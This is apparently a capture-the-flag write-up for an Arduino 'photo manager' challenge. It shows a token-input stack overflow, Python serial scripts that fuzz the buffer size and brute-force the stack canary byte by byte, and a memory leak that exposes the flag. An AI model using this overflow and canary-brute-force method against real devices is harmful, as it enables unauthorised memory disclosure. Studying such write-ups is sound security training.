






# Photo Manager - Exploit

Challenge description:
> We have recently been informed that a group of hackers exploited a
> vulnerability in a PC within another very secure network. Our
> operative says the hacker in charge took a snapshot of the password,
> which they stored in their secret hidden-away database.
> 
> Today we found a photo manager service running on the internet. This
> service can be linked to the hacker who retrieved the passwords. From
> the size of the photo manager we can see they stored lots of pictures,
> so we are hoping they stored the password on their photo manager
> too. Can you breach their photo manager and take a quick look?


Once the binary is loaded onto the Arduino, by connecting to the serial monitor (baud rate 19200) we are presented with the following window:
```
[1] Login
[2] Memory management
```

“Let’s try the various menu options:

With `1`, we are asked to enter an access token.”
```
Please authenticate yourself with your hardware token
Please insert token. (8 characters)
Token can only contain the characters [A-Z/a-z/0-9]
```

If we enter a string containing special characters or shorter than 8 characters, we receive the error message. `Hardware tokens are not of given ASCII sub-set. Aborting.`

If instead we proceed by entering a string longer than 8 characters, the program continues by displaying the first 8 characters entered by the user.

```
Please authenticate yourself with your hardware token
Please insert token. (8 characters)
Token can only contain the characters [A-Z/a-z/0-9]

> ABCDEFGHIJKLMNOP....

Welcome ABCDEFGH
[1] Login
[2] Memory management
```

With `2` nformation about the available memory is displayed:
```
Total memory space: 4096 bytes
Memory space used: 3979 bytes
```

However, the used memory varies at each execution of the program.

If we enter a value different from 1 or 2, the program returns us to the selection menu, so we try to verify whether it is possible to break the access token.

If we enter a very large string, we can observe an error message instead of the previous "Welcome" message:
```
[1] Login
[2] Memory management

> 1

Please authenticate yourself with your hardware token
Please insert token. (8 characters)
Token can only contain the characters [A-Z/a-z/0-9]

> AAAAAAAAAAAAAAAAAAAAAAAAA....

Stack cookie corrupted.
[1] Login
[2] Memory management
[1] Login
[2] Memory management

```



We can observe a variable overflow.
Unlike a standard system, however, due to the Arduino architecture, this cannot lead to code execution.

This is because the AVR architecture on which Arduino is based does not follow the Von Neumann model but the Harvard model: in the latter, the data memory area is physically separated from the instruction memory area, therefore we cannot place executable code on the stack.



We also verified that the error occurs with a 256-character string but not with a 26-character one, so we try to determine the maximum string size we can input.

To do this, we use the fuzzing technique, meaning we provide inputs that are not strictly valid in order to trigger unexpected behavior in the program.

```python
import serial

s = serial.Serial('/dev/ttyACM0',baudrate=19200, timeout=2)
line = s.readlines()
s.timeout = 0.1
for size in range(255,27,-1):
    smash = b'A' * size
    print(f"Testing with size {size}")
    s.write(b'1\n')
    s.readlines() 
    s.write(smash+b'\n')
    line = s.readlines()
    print(line)
    if b'Stack cookie corrupted' not in line[0]:
        break

print(f"Dim stringa {size}")
s.close()
```

By running the script multiple times, we observe that the string size is not constant but variable. By using the menu`[2] Memory management` however, we can derive the relationship between the size of this string and the available memory.



We therefore confirm that the effective string has a maximum size. `Memoria totale - memoria libera - 8`

We can now attempt to recover the content of the stack cookie / canary

```python
...
for i in range(255,1,-1): # Escludiamo \0
    smash = b'A' * size
    smash += i.to_bytes(1, 'little')
    s.write(b'1\n')
    s.readlines() #Lettura del messaggio di login
    s.write(smash+b'\n')
    line = s.readlines()
    if b'Stack cookie corrupted' not in line[0]:
        print(f"Primo carattere cookie: {i} {hex(i)}")
        print("Ricevuto: ")
        print(line)
        break
...
```

By running this multiple times as well, we can see that the first byte of the stack cookie is actually the size of the user string buffer itself!



We therefore proceed to find the second byte:
```python
...
for i in range(1,256,1):
    smash = b'A' * size
    smash += size.to_bytes(1, 'little')
    smash += i.to_bytes(1, 'little')
    s.write(b'1\n')
    s.readlines()
    s.write(smash+b'\n')
    line = s.readlines()
    if b'Stack cookie corrupted' not in line[0]:
        print(f"Secondo carattere cookie: {i} {hex(i)}")
        print("Ricevuto: ")
        print(line)
...
```

Here we can observe that the next byte appears to be the effective number of characters of the username:


However, by continuing the execution, once we reach `0xff` a portion of memory is printed, including the flag:

